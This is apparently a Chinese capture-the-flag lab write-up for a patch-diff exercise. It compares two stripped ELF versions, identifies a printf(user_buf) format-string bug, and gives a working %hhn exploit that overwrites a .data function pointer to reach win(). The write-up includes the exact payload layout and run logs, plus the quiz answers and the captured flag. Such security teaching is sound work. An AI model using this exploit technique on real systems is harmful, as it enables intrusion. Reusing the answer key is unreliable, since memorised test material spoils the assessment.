

# 7-2 安全补丁对比分析 · C035-G2（`printf(user_buf)` → `printf("%s", buf)`：格式串任意写劫持 `.data` 函数指针）

## 题目信息

| 项目 | 内容 |
| --- | --- |
| 题目名称 | 安全补丁对比分析-G2（sectionID `6713`，课程内 number 27，题目内部编号 `C035-G2-F`） |
| 分类 | Pwn / 逆向分析 / 二进制补丁对比（Linux ELF x86-64 格式化字符串漏洞 CWE-134 → `%hhn` 任意写劫持函数指针） |
| 题目描述 | 题目提供两个附件：`challenge_v1` 是同一程序的早期版本，`challenge_v2` 是后续修复版本；**靶机运行的是早期版本 `challenge_v1`**。要求对比两个版本、找出漏洞点，连接靶机拿到 flag。 |

Flag 题（questionID=9401）题干原文要点：

> 本题提供两个附件：`challenge_v1` 是同一程序的早期版本，`challenge_v2` 是后续修复版本；靶机运行的是早期版本 `challenge_v1`。请对比两个版本，找出漏洞点并拿到 flag。

Note：本题是 **`C035` 系列（Linux ELF 补丁对比）** 的第 2 题，考点与前一题（7-1 的 `gets` → `fgets` 栈溢出）同源但方向完全不同：

- **考点仍是"从两个版本的差异反推漏洞"，但补丁信号藏在导入表里**：`challenge_v1.elf` / `challenge_v2.elf` 都被 stripped，没有函数符号；两个版本之间唯一的导入表变化是 **v2 新增 `fputs`、`fwrite`**（不移除任何符号）。这条线索直接指向"输出用户数据的方式变了"：v1 里把用户输入当格式串的 `printf(user_buf)` 被改成 `printf("%s", user_buf)`，配套新增了 `fputs(str, stdout)` 包装函数与 `fwrite` 常量输出（两者的导入来源，详见第 4.2 节）。
- **胜利条件由服务自己完成**：容器只映射 `22`(SSH) 与 **`70`**，而 **`70` 端口就是题目服务本身**（裸 TCP，banner `audit-log v1.0 -- enter log entries (empty line to quit)`）。两个版本的二进制里都有 `"/flag"` 与 `"no /flag\n"`，`win` 函数自行 `open("/flag") → read → write(1,…) → _exit(0)`。所以**没有一次性 token、也没有独立的 flag 兑换服务**——利用成功即由服务直接吐出 flag。
- **非 PIE（`ET_EXEC`）让整个利用不需要泄漏**：`win()`、`.data` 里的函数指针槽都是编译期常量地址，payload 里直接写死即可；反过来，**补丁让 `.text` 整体后移 `0x40`、`win()` 从 `0x401296` 平移到 `0x4012d6`**，这个"地址变了"的假象很容易被误当成防护本身，是本篇要重点讲清的地方。

## 环境信息

| 项目 | 内容 |
| --- | --- |
| 平台 | VMCourse 国产化教学实训平台（自签名证书，`curl` 需加 `-k --noproxy '*'`），课程 ID `1639`，本章节 `sectionID` `6713`（课程内 number 27）。平台账号与口令只保存在本地未跟踪的 `.local/` 目录（不入库），本文不记录任何凭据、cookie 或个人身份信息 |
| 题型 | 3 道单选（9369 / 9371 / 9373，`questionType=2`）+ 1 道多选（9375，`questionType=3`）+ 1 道 Flag 填空（9401，`questionType=1`），`answersTotal=5`；题面返回 `isResubmit=false`（平台不提供官方重答入口，只有一次判分机会） |
| 靶机实例 | envID `1207`（实验环境名 `C035-G2-F`），podID `od98750iwzlzobaa7v2b012fs`，容器名 `s-149923`，image `172.17.0.105:8083/t-11637/c035-g2-f:2026`，`state=Running`，`targetPorts=[22,70]` |
| 端口映射（实测 `portInfos`） | `172.17.0.13:14674 → 22`（SSH）、**`172.17.0.13:14675 → 70`（题目服务本身，裸 TCP，非 HTTP）** |
| 题目服务 | `172.17.0.13:14675`。协议：连接即打印 banner `audit-log v1.0 -- enter log entries (empty line to quit)`，之后每行提示 `[LOG] entry> `，读一行当一条日志；**空行退出**。利用成功时由该服务自己打印 `vmc{...}`（无 token、无兑换服务） |
| 附件（题面下载，`GET /api/question/file/<文件名>?ID=9401`） | `challenge_v1.elf`：**14624 B**，MD5 **`f282e020be0cc822beae993927764541`**（靶机在跑的版本）；`challenge_v2.elf`：**14640 B**，MD5 **`99d530924b32327b15e6087bdf1d65c0`**（修复版） |
| 附件属性（实测） | 均为 ELF 64-bit LSB **executable（`e_type=0x2`，`ET_EXEC`，非 PIE）**、x86-64、dynamically linked、**stripped**、`GNU_STACK=RW`（NX 生效）、有 `GNU_RELRO`；反汇编中**没有** `fs:0x28` / `__stack_chk_fail` ⇒ 无 stack canary |
| 关键节表（实测） | v1：`.plt.sec 0x4010f0 size 0xc0`、`.text 0x4011b0 size 0x364`、`.data 0x404080 size 0x20`、`.bss 0x4040a0 size 0x20`；v2：`.plt.sec 0x401110 size 0xe0`、`.text 0x4011f0 size 0x3a6`、`.data 0x404090 size 0x20`、`.bss 0x4040b0 size 0x20`。两版 `.text` 起点相差 `0x40`（导入表变长导致整体后移） |
| 章节实验环境 | 本题按 AGENTS.md 记录的 `lab/vm` 接口返回 `environment: null`，实例统一在「我的虚拟机」页管理，因此改用 `instances` 接口与页面核对（截图 08、08b） |
| 本机工具 | 无 pwntools / readelf / checksec / gdb / qemu，本机（macOS）也无法直接运行 ELF；用 Apple LLVM `objdump -d -M intel` / `objdump -R` 做反汇编与重定位表分析，用 Python 3 原生 `struct` / `socket` 自写 ELF 头与节表解析、导入表对照、助记符归一化 diff 与交互脚本，Pillow 做脱敏；截图用无头 Chrome（playwright-core 驱动系统 Chrome） |
| 选择题判分 | **9369=C、9371=A、9373=D、9375=A、B、C**（提交前已独立判定并落盘 `.local/process/7-2-answers-rationale.md`，与 Lead 独立判定逐项一致）；`GET /api/student/get/answerHistory?sectionID=6713&contestMode=0` 返回 **5/5 `isCorrect=true`**。按惯例本文不展开选择题解析 |

## 解题过程

### 1. 附件核对与靶机 banner：裸 TCP 的 `audit-log` 日志服务（截图 01）

先确认 70 端口到底是什么——它既不是 HTTP，也不是"flag 兑换服务"，就是题目程序本体：

```console
$ python3 -c "import socket;s=socket.create_connection(('172.17.0.13',14675),timeout=8);print(s.recv(4096))"
b'audit-log v1.0 -- enter log entries (empty line to quit)\n[LOG] entry> '
# 结论：裸 TCP；banner 自称 audit-log v1.0，每行提示 [LOG] entry>，空行退出
```

再做两组最小交互，判断"日志回显"是否安全（脚本与原始输出在 `.local/process/7-2-scripts/`，日志 `logs/08-probe-fmt.txt`）：

```console
===== ① 普通文本：原样回显，无任何泄漏 =====
send: hello world
[LOG] entry> hello world[LOG] entry>

===== ② %p 探针：立刻出现栈/数据段泄漏 =====
send: AAAA.%p.%p.%p.%p.%p.%p.%p.%p
[LOG] entry> AAAA.0x1.0x1.(nil).0x402020.(nil).(nil).0x7ffc2d51c110.0x7ffc2d51c310[LOG] entry>
```

普通文本一个 `0x` 都不多打，而 `%p` 却老老实实按格式说明符吐出了 8 个值（其中一个 `0x402020` 直接落在本程序的只读数据段）——**v1 的日志输出路径就是把用户输入当格式串用**，漏洞性质当场确定。这一步与第 2 节的静态结论互相印证。

![靶机 banner 与交互：裸 TCP `audit-log v1.0`、`[LOG] entry> ` 提示符、普通文本仅原样回显、`%p` 探针出现栈与数据段泄漏；真实命令回显的渲染稿（非终端实拍）](screenshots/01-靶机banner与交互.png)

### 2. 静态侦察一：v2 新增 `fputs`/`fwrite`，两版均非 PIE、NX 生效（截图 02）

`stripped` 的 ELF 没有函数符号可读，所以第一步**先看导入表**——这是两版之间最干净的差异信号（自写 Python 解析 `.dynsym` 与节表，原始输出 `logs/01-elfinfo.txt`、`logs/01b-segments.txt`）：

```console
=== files/challenge_v1.elf 14624 bytes  e_type=0x2 (EXEC) ===
  .text  addr=0x004011b0 size=0x364      .plt.sec addr=0x004010f0 size=0xc0
  .dynsym entries: 17  (14 个导入符号)
  GNU_STACK flags=0x6 (RWX=no)
=== files/challenge_v2.elf 14640 bytes  e_type=0x2 (EXEC) ===
  .text  addr=0x004011f0 size=0x3a6      .plt.sec addr=0x00401110 size=0xe0
  .dynsym entries: 19  (16 个导入符号)
  GNU_STACK flags=0x6 (RWX=no)
```

`.dynsym` 逐项对照（截图 02 的表格按序号并列展示，实际语义是 v2 在 `printf` 之后插入 `fputs`、并在末尾追加 `fwrite`）：

| | 导入符号 |
| --- | --- |
| v1（14） | `__libc_start_main _exit puts write printf close strcspn read fgets feof __gmon_start__ fflush setvbuf open` |
| v2（16） | 同上 + **`fputs`** + **`fwrite`** |

四条结论：

1. **v2 只新增 `fputs` / `fwrite`，没有移除任何符号**——这就是补丁的"指纹"：输出路径从"用户数据当格式串"改成"固定格式串 / 固定长度输出"。其中 `fwrite` 用于输出编译期常量（`"[LOG] "` 前缀、`"---\n"`），`fputs` 来自 v2 新增的一个带 NULL 检查的 `fputs(str, stdout)` 包装函数（对应 `.dynsym` 的新条目，见第 4.2 节 ②）；**真正替换掉 `printf(user_buf)` 的是 `printf("%s", user_buf)`**。
2. **非 PIE（`e_type=0x2`）** ⇒ `win()`、`.rodata`、`.data` 的地址都是编译期常量，payload 里可以直接写死目标地址，不需要任何泄漏。
3. **`GNU_STACK=RW`（NX 生效）**：本题不需要 shellcode，`win()` 就在进程里，NX 不构成障碍；同时反汇编中没有栈 canary，这也意味着"没有额外的坑"。
4. **导入表插入两个符号的连带效应**：`.plt` / `.plt.sec` 每桩 16 字节，`.rela.plt` 增加 2 项（`0x120 → 0x150`）⇒ **`.text` 整体后移 `0x40`**（`0x4011b0 → 0x4011f0`）。这正是后文必须先做"地址归一化"再比对 `.text` 的原因。


### 3. 静态侦察二：漏洞点 `0x401375 call printf`、跳板 `0x401381 call rax`、`win()` @ `0x401296`（截图 03）

导入表指明了"输出方式变了"，但还需要**精确到指令**地定位漏洞点与可利用的跳板。完整反汇编后（原始输出 `logs/02-v1.asm`、`logs/03-v2.asm`，`objdump -d -M intel`；`.plt.sec` 逐桩映射见 `logs/05-pltmap.txt`）。

**（a）漏洞点：日志输出函数 v1 `0x401359`**

```console
  401359: endbr64
  40135d: push  rbp
  40135e: mov   rbp, rsp
  401361: sub   rsp, 0x10
  401365: mov   [rbp - 0x8], rdi          ; 参数 = 用户缓冲区（来自 fgets）
  401369: mov   rax, [rbp - 0x8]
  40136d: mov   rdi, rax                  ; 缓冲区直接进 rdi —— 格式串位置
  401370: mov   eax, 0x0                  ; 可变参数个数 0
  401375: call  0x401120                  ; ★ printf@plt = printf(user_buf)   CWE-134
  40137a: mov   rax, [rip + 0x2d17]       ; 0x404098 处的日志输出函数指针
  401381: call  rax                       ; ★ 间接调用 .data 函数指针（控制流劫持落点）
  401383: nop
  401384: leave
  401385: ret
```

**（b）跳板与目标：`win()` @ v1 `0x401296`**

```console
  401296: endbr64
  40129e: sub   rsp, 0x110
  4012aa: lea   rax, [rip + 0xd57]        ; 0x402008 = "/flag"
  4012b9: call  0x4011a0                  ; open("/flag", O_RDONLY)
  4012c1: cmp   dword [rbp - 0x4], 0x0
  4012c5: js    0x4012e2                  ; 打开失败 → 走 "no /flag\n" 分支
  4012db: call  0x401150                  ; read(fd, rbp-0x110, 0x100)
  401305: call  0x401110                  ; write(1, buf, n)
  40133a: call  0x4010f0                  ; _exit(0)
# 0x402008 = "/flag"、0x40200e = "no /flag\n" ⇒ 利用成功由服务直接打印 flag
```

**（c）常量与数据段清单（`logs/05-pltmap.txt`）**

```console
.rodata:  0x402008 "/flag"   0x40200e "no /flag\n"   0x402018 "[LOG] "   0x40201f "---"
          0x402023 "entry> " 0x40202b "\n"           0x402030 "audit-log v1.0 ..."
.data:    0x404090 = 0x40133f      0x404098 = 0x40134e     # 两个函数指针
.bss:     0x4040a0 起（size 0x20）
# PLT（v1）：printf 0x401120、write 0x401110、read 0x401150、open 0x4011a0、_exit 0x4010f0
```

三条可用信息：

1. **漏洞点**：`0x401375 call printf`，`rdi` 指向 `fgets` 读入的用户缓冲区 ⇒ **格式化字符串漏洞（CWE-134）**，`%p/%x` 读栈、`%n/%hn/%hhn` 写内存。
2. **利用跳板**：`0x40137a mov rax,[0x404098]` + `0x401381 call rax`——`.data` 的 `0x404098` 存着"日志输出函数指针"（初值 `0x40134e`，指向一个空壳函数），它**每处理完一行日志都会被间接调用一次**，因此只要把它的低 4 字节改成 `win()`，这条日志的 `printf` 一返回就会跳进 `win()`。
3. **目标地址固定**：非 PIE ⇒ `win()` = `0x401296` 直接可写。

> 术语校正：`0x404098` 按节表落在 **`.data`**（`0x404080 + 0x20`），`.bss` 从 `0x4040a0` 才开始。Lead 任务书与交接摘要里把它笼统称作"`.bss` 函数指针"，本文以节表实测为准写作 `.data`；这不影响利用（同一页 RW 段内，两处都在 `0x4040a0` 之前，属已初始化数据）。


### 4. v1 → v2 补丁对比（本题核心产出，截图 03）

#### 4.1 导入表差异

见第 2 节：**v2 新增 `fputs`、`fwrite`（v1 无），无符号移除**。新增的两个符号给出了补丁方向，但"改在哪里、怎么改"必须回到 `.text`。

#### 4.2 `.text` 差异（先归一化地址，再比助记符）

> 因为导入表插入两个符号，`.plt` / `.plt.sec` 每桩 16 字节，`.text` 整体后移 `0x40`，直接 `diff` 两版反汇编会有成屏的地址噪声。做法：**先比 `.dynsym` 定位补丁方向，再把操作数里的地址归一化（`HEX`）后比助记符序列**（`logs/06-mnemonic-diff.txt`）。归一化后 `.text` 只剩四处真实差异——其中 ① 是漏洞修复本身，② ③ 恰好分别解释了 `.dynsym` 里新增的两个导入符号：

```console
@@ ① 日志输出函数：v1 0x401359  vs  v2 0x4013ba   ← 主修复
 v1:  401369 mov rax,[rbp-0x8]
      40136d mov rdi,rax            ; 用户缓冲区 → rdi（格式串位置）
      401370 mov eax,0
      401375 call printf@plt        ; ★ printf(user_buf)
 v2:  4013ca mov rax,[rbp-0x8]
      4013ce mov rsi,rax            ; 用户缓冲区 → rsi（第 2 参数 = 数据）
      4013d1 lea rax,[rip+0xc40]    ; 载入 0x402018 = "%s"（.rodata 新增常量）
      4013d8 mov rdi,rax            ; 固定格式串 → rdi
      4013db mov eax,0
      4013e0 call printf@plt        ; ★ printf("%s", user_buf) —— 已修复

@@ ② 空壳函数 → 真正的 fputs 包装函数：v1 0x40133f  vs  v2 0x40137f   ← .dynsym 新增 fputs 的来源
 v1:  40133f endbr64
      401347 mov [rbp-0x8],rdi
      40134b nop ; pop rbp ; ret    ; 收下参数后什么也不做（空壳）
 v2:  40137f endbr64
      40138b mov [rbp-0x8],rdi
      40138f cmp qword [rbp-0x8],0x0
      401394 je  0x4013ac           ; NULL 检查
      401396 mov rdx,[0x4040b0]     ; stdout
      4013a1 mov rsi,rdx
      4013a4 mov rdi,rax
      4013a7 call fputs@plt         ; ★ fputs(str, stdout)
# 该函数只由 .data 的函数指针槽引用：v1 0x404090 → 0x40133f；v2 随 .data 平移为 0x4040a0 → 0x40137f
# （反汇编中没有任何直接 call 指向它，属于"经函数指针间接使用"的槽位）

@@ ③ "[LOG] " 前缀输出：v1 0x4013b2  vs  v2 0x401421   ← .dynsym 新增 fwrite 的来源之一
 v1:  4013ba lea rax,[rip+0xc57]    ; 0x402018 = "[LOG] "
      4013c9 call printf@plt        ; 用编译期常量当格式串（本身安全）
 v2:  401421 mov rax,[0x4040b0]     ; stdout
      40142f mov edx,0x6
      401434 mov esi,0x1
      401439 lea rax,[rip+0xc29]    ; 0x402069 = "[LOG] "（v2 中被搬到此处）
      401443 call 0x4011e0          ; fwrite("[LOG] ", 1, 6, stdout)
      # v2 主循环里输出 "---\n" 的那处同样改用 fwrite（0x4014f8），fwrite 因此成为新导入

@@ ④ v2 主循环 0x4014c3 起新增 `mov byte [rbp-0x1], 0` 等无害调整（v2 banner 由 v1.0 改为 v2.0）
```

`.rodata` 变化：v1 `0x402018 "[LOG] "`；v2 `0x402018 "%s"`、`0x40201b "entry> "`、`0x402025 "---\n"`、`0x402069 "[LOG] "`（字符串重排 + 新增 `"%s"`）。

> 一处记录笔误（以反汇编为准）：解题原始记录 §3.2 把 ③ 写成"v1 `0x4013b2` 用 `puts` 打印 `[LOG] `"。实测 `0x4013c9` 的调用目标是 `0x401120` = **`printf`**（用常量串作格式串，本身安全）；v1 里真正用 `puts` 的是 `0x4013d1` 函数打印 `"---"`（`0x4013e3 call 0x401100`）。原始记录的归一化 diff 中虽然出现了 ② 的那段（空壳 `nop; pop rbp; ret` → 新增 `sub rsp`/`cmp`/`call` 的指令序列），但摘要文字没有把它单列为补丁点，本文按反汇编补记为 ②（`fputs` 导入的真正来源）。这些差别不影响"补丁把可变内容挪出格式串位置"的结论。

#### 4.3 地址平移对照表（`logs/36-patch-summary.txt`）

| 对象 | v1 | v2 | 位移 |
| --- | --- | --- | --- |
| `win()` 入口 | `0x401296` | **`0x4012d6`** | +0x40 |
| 日志输出函数（漏洞点所在） | `0x401359` | `0x4013ba` | +0x61 |
| `"[LOG] "` 前缀输出函数 | `0x4013b2` | `0x401421` | +0x6f |
| 空壳函数 → `fputs` 包装函数 | `0x40133f` | `0x40137f` | +0x40 |
| 主循环 | `0x4014a0` | `0x401522` | +0x82 |
| **日志输出函数指针槽** | **`0x404098`** | `0x4040a8` | +0x10 |
| 另一函数指针槽 | `0x404090` | `0x4040a0` | +0x10 |

#### 4.4 补丁为什么能挡住原利用

1. **写原语彻底失效（根因）**：`printf("%s", buf)` 把用户缓冲区从**格式串位置**挪到了**参数位置**，缓冲区里的 `%` 不再被解释——`%p` 读不到栈、`%n` / `%hn` / `%hhn` 写不进内存，全部退化成普通字符。
2. **同样的跳板结构仍在，但已无数据可控**：v2 中 `0x4013e5 mov rax,[0x4040a8]` + `0x4013ec call rax` 依然存在（函数指针槽只是平移），攻击者却再也拿不到写原语去改写它。
3. **辅助路径也不再触碰用户数据**：`fwrite("[LOG] ", 1, 6, stdout)` 的输出全是编译期常量（长度、内容都固定），不存在"用户数据进格式串"的可能。
4. **地址平移只是副作用，不是防护本身**：导入表插入符号使 `win()` 从 `0x401296` 平移到 `0x4012d6`，于是"把 payload 里的地址跟着改成 `0x4012d6`"看起来像是试图绕过补丁——但真正被消除的是**写原语**，地址再怎么改也写不进去。这正是本题"补丁对比"要强调的点：**要定位到语义修改（`printf(buf)` → `printf("%s", buf)`），而不是被地址平移的 diff 噪声或"地址变了所以打不通"的假象误导**。
5. **实测局限（如实说明）**：本机是 macOS，无法运行 ELF（无 gdb / qemu / Docker 环境），**v2 未在本地动态执行**；上述补丁有效性结论来自 `.dynsym` / `.text` / `.rodata` 的静态比对，以及 v1 的实测成功（v1 的 `win` 地址、函数指针槽都已被"实际打通 → 服务打印 flag"佐证）。v2 的补丁点已由指令序列确认（`mov rsi, rax` + `lea rax, "%s"` + `call printf`），而 `.dynsym` 新增的两个导入也各自有落点：`fputs` 对应 ② 的新包装函数、`fwrite` 对应 ③ 的常量输出。

### 5. 参数槽定位与三条传输层实测结论（截图 01、04）

要让 `%N$hhn` 写进"缓冲区里放着的目标地址"，先要知道**缓冲区的第 1 个 8 字节对应第几个可变参数槽**（原始输出 `logs/09-probe-slots.txt`、`logs/14-probe-slotmap.txt`）：

```console
send "BBBB|%10$p"                    -> 0x3031257c42424242   = "BBBB|%10" 的小端
pad=8  + "|%10$p %11$p %12$p %13$p"  -> 0x4141414141414141   = 8 个 'A'
# ⇒ buf[0:8] 就是第 10 个可变参数；buf 内偏移 off 的指针落在槽号 10 + off/8
```

**（a）约束一：输入流里的 NUL 会截断 `printf` 的解析（`logs/15`、`logs/18`）**

```console
null+text     b'AA\x00BBCC'                       -> 只回显 'AA'
null+fmt      b'AA\x00%10$p'                      -> 只回显 'AA'（%10$p 根本没被处理）
ptr@0 fmt@16  b'\x98@@\x00..\x00AAAAAAAA%10$p'     -> 只回显 '\x98@@'
ptrH@0 fmt@16 b'\x98@@@ABCDAAAAAAAA%10$p'         -> 完整回显 0x4443424140404098（无 NUL 就正常）
```

⇒ 目标地址 `0x404098` = `98 40 40 00 00 00 00 00` **含 NUL**，绝对**不能放在格式串之前**；必须放在缓冲区**最后一个参数位置**（格式串之后），让地址里的 NUL 落在格式串之外。

**（b）约束二：除 NUL 外的二进制字节可以安全通过（`logs/18`）**

```console
byte 0x01 / 0x10 / 0x1b / 0x7f / 0x80 / 0xfe / 0xff -> 均完整回显，%p 参数值也完整
```

⇒ payload 里除了那 4 个 NUL，其余全部可以按字节直传。

**（c）约束三：单次 `%hn` 写低 16 位在本靶机实测失败（`logs/30`、`logs/31`）**

```console
A  fmt=%4306c%64$hn                     -> Illegal instruction (core dumped)（落点偏 2 字节）
B  fmt=%4293c%64$hn %11626c%65$hn       -> Segmentation fault (core dumped)
C  fmt=%150c%64$hhn%124c%65$hhn%46c%66$hhn%192c%67$hhn
                                        -> vmc{gTS9EXGBI22xo10BDD9OiHc9izdeBhgQ}   ★ 成功
```

`%hn` 只写 2 字节时，落点相对预期偏移了 2 字节，最终跳到 `endbr64`（`F3 0F 1E FA`）之后、`0x12`（`adc`）这类字节上，构成非法指令流（SIGILL）。改为**逐字节 `%hhn` 写满 4 字节**后落点精确、计数完全可控，3/3 次稳定成功。这里的因果是**实测出来的**：`%hhn` 方案成功、`%hn` 方案稳定失败，两者只差写入宽度与计数递增方式。

### 6. 失败对照四组：把因果先钉死（截图 04）

| # | 尝试 | 现象 | 原因 | 如何调整 |
| --- | --- | --- | --- | --- |
| 1 | 只发普通文本 `hello world` | 原样回显，无泄漏、无崩溃、无 flag | 没有格式说明符，漏洞未被触发 | 改用 `%p` 探针确认漏洞存在 |
| 2 | 只发 1 个 `%p` | 首槽读到 `0x1`，不是缓冲区 | 幻影参数按 ABI 顺序走，首槽不是 `buf` | 用 `%N$p` 逐槽扫描（`%10$p`…`%14$p`），配合不同 `pad` 定出槽 10 = `buf[0:8]` |
| 3 | 把目标地址放在格式串**之前**（`\x98@@\x00…` + `%10$p`） | 只回显 `\x98@@`，`%10$p` 完全没被处理 | **输入流中的 NUL 会截断 `printf` 的解析与输出**（本靶机实测，属后验发现，不是事前预判） | 把 4 个目标地址挪到格式串之后（缓冲区最后一组参数位置） |
| 4 | 目标地址写错（写 `0x401336`，落在 `win` 之外） | `Segmentation fault (core dumped)` | 落点不在函数入口 | 回到 `win` 入口 `0x401296` |

> 另有两条在探索期出现、但**不是最终失败对照**的记录：`%hn` 单写低 16 位的 SIGILL（见第 5 节 (c)），以及最初"槽号 = 10 + off/8"的偏差误判（`%10$p` 在 `pad=0` 与 `pad=8` 下返回值不同，实为缓冲区内偏移不同所致，说明幻影参数确实在顺着栈往后走）。两者都保留在原始日志中（`logs/13`、`logs/16`、`logs/21`、`logs/24`–`logs/26`、`logs/30`、`logs/31`）。


### 7. 正式利用：464 字节 payload，服务直接打印 flag（截图 05）

利用链一句话：**格式串写原语 → 覆写 `.data 0x404098` 的函数指针低 4 字节为 `0x00401296` → 本行日志处理完 `call rax` 即跳入 `win()`**。

格式串（47 字节，四条 `%hhn` 的累计输出严格单调递增）：

```text
%150c%64$hhn%124c%65$hhn%46c%66$hhn%192c%67$hhn
```

| 段 | 打印宽度 | 累计输出 | `mod 256` | 写入字节 | 写入地址 | 对应槽 |
| --- | --- | --- | --- | --- | --- | --- |
| `%150c%64$hhn` | 150 | 150 | `0x96` | 低字节 | `0x404098` | 64（buf+0x1b0） |
| `%124c%65$hhn` | 124 | 274 | `0x12` | 次字节 | `0x404099` | 65（buf+0x1b8） |
| `%46c%66$hhn` | 46 | 320 | `0x40` | 次字节 | `0x40409a` | 66（buf+0x1c0） |
| `%192c%67$hhn` | 192 | 512 | `0x00` | 最高字节 | `0x40409b` | 67（buf+0x1c8） |

写完后 `.data 0x404098` 处 4 字节为 `96 12 40 00`，小端即 **`0x0000000000401296` = `win()`**。

payload 组装（总长 464 字节 < `fgets` 上限 511）：

```text
47 字节格式串 + 385 字节 'A' 填充（把目标地址顶到 buf 偏移 0x1b0）
+ p64(0x404098) + p64(0x404099) + p64(0x40409a) + p64(0x40409b)      # 共 4×8 = 32 字节
= 47 + 385 + 32 = 464
# 校验：槽 64 = 10 + 0x1b0/8 = 10 + 54 = 64 ✔；填充 = 0x1b0 - 47 = 432 - 47 = 385
```

> 记录订正说明：解题原始记录 §2.6 初稿把填充写成 `'A'*(0x1b0 - 39)`，但实测格式串长度是 **47** 字节（`%150c`=5、`%64$hhn`=7、`%124c`=5、`%65$hhn`=7、`%46c`=4、`%66$hhn`=7、`%192c`=5、`%67$hhn`=7），故填充应为 **385**（`0x1b0 - 47`）。该笔误已在原始记录中就地订正，`exploit.py` 本身一直正确（脚本按 `ptr_off - len(body)` 计算 padding）。Lead 独立复算得同一结果（`padding=385`、payload 总长 464），并用自己的脚本连测两次成功——本文按 385 记载，与 `logs/28-flag-confirm.txt` 里 `payload_len=464` 的实际字节数一致。

真实执行输出（`logs/32-FINAL-flag.txt`，脚本 `.local/process/7-2-scripts/exploit.py`）：

```console
$ python3 exploit.py
[*] slot0=64 fmt=b'%150c%64$hhn%124c%65$hhn%46c%66$hhn%192c%67$hhn' payload_len=464 (fgets 上限 511)
[>] outlen=1008
[>] tail=b'AAAA...AAA\x98@@vmc{gTS9EXGBI22xo10BDD9OiHc9izdeBhgQ}\n'
[+] FLAG = vmc{gTS9EXGBI22xo10BDD9OiHc9izdeBhgQ}
```

连测 3 次结果逐字一致（`logs/33-flag-x3.txt`）：

```console
[+] FLAG = vmc{gTS9EXGBI22xo10BDD9OiHc9izdeBhgQ}
[+] FLAG = vmc{gTS9EXGBI22xo10BDD9OiHc9izdeBhgQ}
[+] FLAG = vmc{gTS9EXGBI22xo10BDD9OiHc9izdeBhgQ}
```

响应尾部 `\x98@@` 是格式串之后那几个地址字节被当作普通字符输出的残留（到第一个 NUL 为止），紧接着就是 `win()` 从 `/flag` 读出的 flag——**flag 由题目服务自己打印，全程没有第二个服务参与**。


### 8. 提交答案与平台判分：5/5 全对（截图 06、07）

4 道选择题与 Lead 的独立判定逐项一致（推理过程落盘 `.local/process/7-2-answers-rationale.md`）：**9369=C、9371=A、9373=D、9375=A、B、C**。提交（multipart，`answers` 的值是 JSON 字符串）：

```console
$ set -a; . .local/qa-platform.env; . .local/vmc-platform.env; set +a
$ curl -sS -k --noproxy '*' -m 60 -b .local/vmc-cookies.txt -X POST "$VMC_BASE_IP/api/student/submitAnswers" \
    -F 'sectionID=6713' \
    -F 'answers={"questionID": 9369, "answer": "{\"answer\": [\"C\"], \"num\": 1}"}' \
    -F 'answers={"questionID": 9371, "answer": "{\"answer\": [\"A\"], \"num\": 1}"}' \
    -F 'answers={"questionID": 9373, "answer": "{\"answer\": [\"D\"], \"num\": 1}"}' \
    -F 'answers={"questionID": 9375, "answer": "{\"answer\": [\"A\",\"B\",\"C\"], \"num\": 3}"}' \
    -F 'answers={"questionID": 9401, "answer": "{\"num\": 3, \"answer\": [\"\", \"\", \"vmc{gTS9EXGBI22xo10BDD9OiHc9izdeBhgQ}\"]}"}' \
    -F 'contestMode=0'
{"code":0,"msg":"success"}     # 5 条记录 answerTimes 均为 1（本次为首提交，未浪费判分机会）
# 平台把填空题值规范化成：{"num":3,"answer":["","true","vmc{gTS9EXGBI22xo10BDD9OiHc9izdeBhgQ}"]}
```

复核（唯一判分依据，`GET /api/student/get/answerHistory?sectionID=6713&contestMode=0`）：

```console
qid=9369  isCorrect=True
qid=9371  isCorrect=True
qid=9373  isCorrect=True
qid=9375  isCorrect=True
qid=9401  isCorrect=True
```

> 注：提交响应顶层 `isCorrect:false`、`scoreRate:0` 是平台常态（不反映判分结果），以 `answerHistory` 的逐题 `isCorrect` 为准；提交前的 `answerHistory` 为 `answerQuestion: []`。




### 9. 实例与端口映射核对：70 就是题目服务本身（截图 08、08b）

`GET /api/student/instances?offset=0&limit=10&ID=1207` 的原始响应（截图 08b，渲染前整段删除含账号/姓名/学号/lastIP 的 `currentUser` 字段）：

```console
$ curl -sS -k --noproxy '*' -b .local/vmc-cookies.txt "$VMC_BASE_IP/api/student/instances?offset=0&limit=10&ID=1207"
{"code": 0, "instances": [{
  "name": "s-149923", "podID": "od98750iwzlzobaa7v2b012fs", "state": "Running",
  "image": "172.17.0.105:8083/t-11637/c035-g2-f:2026",
  "portInfos": [
    {"hostIP": "0.0.0.0", "publishedPort": 14674, "targetPort": 22},
    {"hostIP": "0.0.0.0", "publishedPort": 14675, "targetPort": 70}
  ], "timeout": 1792148985 }]}
# ★ 容器只映射 22(SSH) 与 70；70 端口就是题目服务 audit-log 自己 —— 没有独立的 flag 兑换服务
```


### 10. 失败尝试与踩坑清单

| # | 现象 | 原因 | 如何调整 |
| --- | --- | --- | --- |
| 1 | 普通文本没有任何泄漏 | 没有格式说明符 | 用 `%p` 探针先证明漏洞存在，再谈利用 |
